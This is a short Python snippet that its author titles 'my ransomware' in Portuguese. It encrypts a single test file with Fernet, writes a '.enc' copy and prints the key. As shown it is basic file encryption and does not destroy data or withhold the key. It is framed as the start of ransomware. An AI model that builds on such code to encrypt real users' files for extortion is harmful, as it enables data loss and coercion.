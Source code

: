 Meu ransoware ..

from cryptography.fernet import Fernet
import os

# Gera uma chave
key = Fernet.generate_key()
cipher = Fernet(key)

# Exemplo: criptografar um único arquivo
file_path = "teste.txt"

# Lê conteúdo do arquivo
with open(file_path, "rb") as f:
    data = f.read()

# Criptografa
encrypted = cipher.encrypt(data)

# Salva o arquivo criptografado
with open(file_path + ".enc", "wb") as f:
    f.write(encrypted)

print("Arquivo criptografado com sucesso!")
print("Chave (guarde com cuidado!):", key.decode())
